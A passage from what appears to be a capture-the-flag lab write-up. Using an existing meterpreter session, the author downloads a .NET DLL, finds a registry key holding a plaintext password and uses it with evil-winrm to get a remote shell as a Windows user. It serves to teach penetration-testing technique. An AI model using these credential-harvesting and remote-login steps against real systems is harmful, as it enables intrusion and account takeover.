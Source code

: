 Since every folder has been about the examination panel, we will take a look at the ExaminationManagement.dll file.
```bash
meterpreter > download ExaminationManagement.dll 
[*] Downloading: ExaminationManagement.dll -> /home/kali/ExaminationManagement.dll
[*] Downloaded 13.50 KiB of 13.50 KiB (100.0%): ExaminationManagement.dll -> /home/kali/ExaminationManagement.dll
[*] Completed  : ExaminationManagement.dll -> /home/kali/ExaminationManagement.dll
```

We can use dnspy to decompile the DLL and find the following registrykey that is being used.
![Pasted image 20240714174200.png](/images/Pasted image 20240714174200.png){: .normal }


We can retrieve the registrykey using req query.
```bash
c:\\windows\\system32\\inetsrv>reg query HKEY_LOCAL_MACHINE\\Software\\MedDigi

HKEY_LOCAL_MACHINE\\Software\\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
```

Since we have a password, we need to find a username to go with it, in the users directory we can find a couple of usernames.
```bash
meterpreter > cd C:/Users
meterpreter > ls
Listing: C:\\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  8192  dir   2023-10-18 21:08:02 -0400  Administrator
040777/rwxrwxrwx  0     dir   2019-12-07 04:30:39 -0500  All Users
040555/r-xr-xr-x  8192  dir   2023-09-15 19:52:26 -0400  Default
040777/rwxrwxrwx  0     dir   2019-12-07 04:30:39 -0500  Default User
040555/r-xr-xr-x  4096  dir   2024-02-09 18:03:35 -0500  Public
100666/rw-rw-rw-  174   fil   2019-12-07 04:12:42 -0500  desktop.ini
040777/rwxrwxrwx  8192  dir   2023-09-24 14:16:51 -0400  devdoc
040777/rwxrwxrwx  8192  dir   2023-10-18 21:40:06 -0400  svc_exampanel
040777/rwxrwxrwx  8192  dir   2023-10-17 18:05:07 -0400  svc_meddigi
040777/rwxrwxrwx  8192  dir   2023-10-18 22:10:39 -0400  svc_meddigiportal
```

Evil-winrm ends up working for the devdoc user.
```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u "devdoc" -p '1g0tTh3R3m3dy!!' -i 10.10.11.238

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: <https://github.com/Hackplayers/evil-winrm#Remote-path-completion>

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\\Users\\devdoc\\Documents> whoami
appsanity\\devdoc
```
